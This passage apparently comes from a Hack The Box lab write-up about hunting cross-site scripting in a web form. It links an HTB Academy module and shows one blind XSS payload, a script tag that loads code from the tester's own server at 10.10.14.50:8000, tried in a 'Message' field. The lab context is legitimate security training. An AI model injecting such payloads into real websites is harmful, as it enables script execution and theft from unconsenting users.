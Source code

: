 ![](attachments/aen_25.png)

Since it has many user inputs, possibly it contains XSS vulnerability vectors.
Here's the reference HTB module:
https://academy.hackthebox.com/module/103/section/1008

![](attachments/aen_26.png)

Given a few payloads provided from the module, I tested on "Message" field.

```xml
"><script src=http://10.10.14.50:8000/this_is_a_test></script>
```
